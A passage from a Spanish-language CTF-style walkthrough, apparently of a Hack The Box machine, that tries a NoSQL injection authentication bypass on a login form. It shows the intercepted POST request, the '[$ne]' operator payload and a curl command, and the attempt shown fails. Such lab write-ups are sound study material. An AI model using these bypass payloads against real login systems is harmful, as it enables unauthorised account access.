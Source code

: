 ## NoSQLi (Authentication Bypass)

Al interceptar la peticion con burp nos podemos dar cuenta de como se esta enviando nuestra peticion:

```ruby
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

user=c4rta&password=nose
```
No hay mucho de destacar, podemos ver en el **Content-Type** que el contenido que estamos enviando es un formulario en URL encode, es una peticion POST, y demas, sin embargo, como estamos contra un login, siempre es bueno probar si existe una SQLi o NoSQLi para hacer **Authentication Bypass**, les puedo adelantar que mediante SQLi no se va a poder, y viendo por las tecnologias que hemos encontrado hasta ahora, es muy probable que use **MEAN stack**, asi que probaremos con NoSQLi

> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)

De primeras podemos probar con 

```ruby
user=admin&password[$ne]=mizuki
```

El **[$ne]** significa **not equal**, y esta funcionando asi: Si el **user** es igual a **admin** y la **password** no es igual a **mizuki**, se estarian cumpliendo las dos condiciones por que el usuario **admin** si es un usuario valido y la contraseña de ese usuario no es **mizuki**, asi que la consulta seria verdadera y nos deberia de iniciar sesion, en mi caso usare curl:

```ruby
curl -v -X POST -d 'user=admin&password[$ne]=mizuki' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
```

Pero no funcionara:

```ruby
curl -v -X POST -d 'user=admin&password[$ne]=mizuki' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
> Content-Length: 31
< Content-Length: 1040
            Invalid Password
```
